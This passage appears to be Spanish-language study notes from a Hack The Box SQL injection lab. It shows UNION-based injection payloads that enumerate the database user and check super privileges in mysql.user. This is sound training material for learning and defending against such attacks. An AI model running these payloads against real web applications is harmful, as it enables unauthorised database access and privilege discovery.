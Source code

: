<br>

    SELECT USER()
    SELECT CURRENT_USER()
    SELECT user from mysql.user

<br>

Nuestro payload de UNION seria el siguiente:

<br>

    cn' UNION SELECT 1, user(), 3, 4-- -

<br>

o:

<br>

    cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

<br>

Recibimos en la salida que nuestro usuario actual es "root".

<br>

![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

<br>

Esto es muy prometedor, ya que es probable que un usuario root sea un DBA, lo que nos dara muchos privilegios.

<br>

## PRIVILEGIOS DE USUARIO ##

<br>

Ahora, que conocemos a nuestro usuario, podemos comenzar a buscar que privilegios tenemos con ese usuario. En primer lugar, podemos probar si tenemos privilegios de superadministrador con la siguiente conuslta.

<br>

    SELECT super_priv FROM mysql.user

<br>

Una vez mas, podemos usar el siguiente payload con la consulta anterior.

<br>

    cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

<br>

Si tuvieramos muchos usuarios dentro del DBMS, podemos agregar WHERE user = "root"-- -

<br>
